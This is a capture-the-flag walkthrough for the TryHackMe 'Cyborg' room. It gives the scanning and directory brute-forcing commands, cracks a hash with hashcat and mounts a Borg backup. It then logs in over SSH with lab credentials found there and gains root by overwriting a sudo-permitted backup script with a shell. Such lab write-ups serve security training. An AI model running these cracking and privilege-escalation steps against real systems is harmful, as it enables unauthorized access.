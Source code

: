 # Cyborg

**Room Link:** [https://tryhackme.com/room/cyborgt8](https://tryhackme.com/room/cyborgt8)

## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>







### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

## Hash

**Link:** [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example\_hashes)

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
hashcat -m 1600 password /usr/share/wordlists/rockyou.txt
hashcat -m 1600 password --show
```

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (8).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sudo apt install borgbackup -y
mkdir backup
borg mount home/field/dev/final_archive backup
Password: squidward
```

Within the backup I can see credentials for alex

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh alex@$VICTIM
Password: S3cretP@s3
```

<figure><img src="../../.gitbook/assets/image (76) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (2).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Victim**

```
chmod 777 /etc/mp3backups/backup.sh
echo "/bin/bash" > /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh 
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>











